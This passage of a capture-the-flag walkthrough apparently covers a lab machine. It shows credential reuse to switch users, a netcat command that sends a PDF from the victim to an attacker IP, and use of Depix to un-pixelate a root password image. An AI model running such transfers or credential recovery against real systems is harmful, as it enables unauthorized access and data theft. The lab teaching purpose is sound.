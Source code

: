 I finally decided to use the **Pluck CMS** password on `Junior` and it worked...
```console
www-data@greenhorn:~$ su junior
Password: [REDACTED]
junior@greenhorn:/var/www$ cd
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
junior@greenhorn:~$ cat user.txt 
[REDACTED]
```

## Root Flag

### Depix
Inside `Junior`'s home directory, there is a file called `Using OpenVAS.pdf`.
Let's transfer the file to our system and see what's inside:
```console
m3ga@kali$ nc -lvnp 443 > 'Using OpenVAS.pdf' # Attacker machine
junior@greenhorn:~$ nc 10.10.16.2 443 < ./Using\ OpenVAS.pdf # Victim machine
```

It looks like the file contains an image. The image is supposed to be **the root password**, but it's pixelated.

![c84d4761bb6605dc32afcfdc6d8110aa.png](c84d4761bb6605dc32afcfdc6d8110aa.png){: w="500" h="300" .center}

Let's extract the image from the file and see what we can do with it.
```console
m3ga@kali$ pdfimages -all Using\ OpenVAS.pdf 'img'
```

This is what we get.

![a72d830d009e191b5f20ff29fd092277.png](a72d830d009e191b5f20ff29fd092277.png){: w="500" h="300" .center}

> **pdfimages** can be installed by running: `sudo apt install poppler-utils`
{: .prompt-tip}

There is a tool called [**Depix** by **spipm** on GitHub](https://github.com/spipm/Depix) which can try to reverse the pixelation process. Let's give it a try, maybe we have some luck with it.

```console
m3ga@kali$ git clone https://github.com/spipm/Depix.git
Cloning into 'Depix'...
...
m3ga@kali$ cd Depix
m3ga@kali:~/Depix$ python3 depix.py -p ../extracted_image.png -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png -o ./depixed.png
```

> The `Depix/images/searchimages/` contains a couple of pattern images that I went through and `debruinseq_notepad_Windows10_closeAndSpaced.png` is the one that worked for me.
{: .prompt-info}

The depixed image is not perfect but I could make out the one or two missing characters:
![884ac9f1009817c75193b2060cb3e550.png](884ac9f1009817c75193b2060cb3e550.png){: w="500" h="300" .center}
